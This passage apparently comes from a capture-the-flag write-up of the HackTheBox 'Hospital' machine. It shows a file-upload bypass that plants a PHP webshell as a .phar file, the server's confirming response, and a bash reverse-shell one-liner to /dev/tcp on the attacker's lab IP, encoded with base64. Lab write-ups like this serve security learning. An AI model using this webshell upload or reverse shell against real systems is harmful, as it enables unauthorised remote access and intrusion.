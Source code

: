 ```

Content-Disposition: form-data; name="image"; filename="Calico.phar"
Content-Type: application/x-php

#<?php
/*******************************************************************************
 * Copyright 2017 WhiteWinterWolf
 * https://www.whitewinterwolf.com/tags/php-webshell/
 *
 * This file is part of wwolf-php-webshell.
```

The server then issued the following valid response. The fact we were being redirected to **success.php** was an indication that our file was uploaded

```
HTTP/1.1 302 Found
Date: Tue, 21 Nov 2023 03:51:04 GMT
Server: Apache/2.4.55 (Ubuntu)
Location: /success.php
Content-Length: 0
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

So next step was to try and access this file. I assumed that files would be located in the uploads folder meaning our shell would be at **http://hospital.htb:8080/uploads/Calico.phar**

![Webshell](/assets/img/Hospital/Hospital_04.png)

Next step was to create a full reverse shell. Seeing that we were running as www-data user i was certain it was a linux machine. With the following command i created a bash reverse shell

```
echo -n '/bin/bash -l > /dev/tcp/10.10.14.184/443 0<&1 2>&1' | base64

```
